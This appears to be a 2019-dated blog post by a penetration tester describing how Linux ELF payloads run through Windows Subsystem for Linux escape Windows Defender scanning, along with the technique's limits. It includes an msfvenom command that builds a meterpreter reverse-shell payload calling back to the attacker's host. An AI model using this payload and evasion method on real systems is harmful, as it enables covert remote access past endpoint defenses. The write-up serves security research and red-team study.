 ```yaml
---
title: Bypassing Windows Defender with WSL
date: 2019-01-16
draft: false
description: Using Windows Subsystem for Linux to Bypass Windows Defender
---
```


After watching BHIS’s Sacred Cash Cow Tipping 2020 I was inspired to try out a few of the techniques BHIS demoed, and this is a pretty fun and odd one.

There’s a few issues with WSL that make it a really poor choice for hacking without some configurations. The interesting one here is that WSL **does not use VHDs or emulate linux filesystems**, in fact, you can navigate to `%AppData%/Local/Packages/$LinuxDistro/LocalState/rootfs` and interact with the entire filesystem.

This also means that every file you make/drop to WSL is scanned by Windows Defender. Don’t even try to install metasploit.

However, as BHIS points out, elf files are not scanned by Defender. So to test this, if you fire up a normal metasploit session and do a quick `msfvenom -f elf -p linux/x64/meterpreter_reverse_tcp LHOST=$IP LPORT=4444 > payload.elf` you can simply drop it to disk and run it through WSL. A shell comes back, no questions asked.

This is pretty cool and exciting and all, but there’s a few drawbacks. The first issue is that since you’re running from a linux payload and from within WSL, you can’t use typical metasploit windows goodies like priv and kiwi without first pivoting.

The other issue is that this technique has a lot of preconditions. You need to first have initial access obviously, but you also need the target to have WSL installed, with a linux distribution installed. This is not most workstations. Installing a linux distro into WSL requires you to first enable the WSL feature in Windows, then restart the machine, and finally install the distro of your choice. Steps 1 and 3 both require administrative privileges by default, so I don’t see a practical use-case unless you can somehow install WSL without admin or the machine is preconfigured.

It’s a very neat trick though, and runs all processes through WSL, which allows you to bypass application whitelisting as well.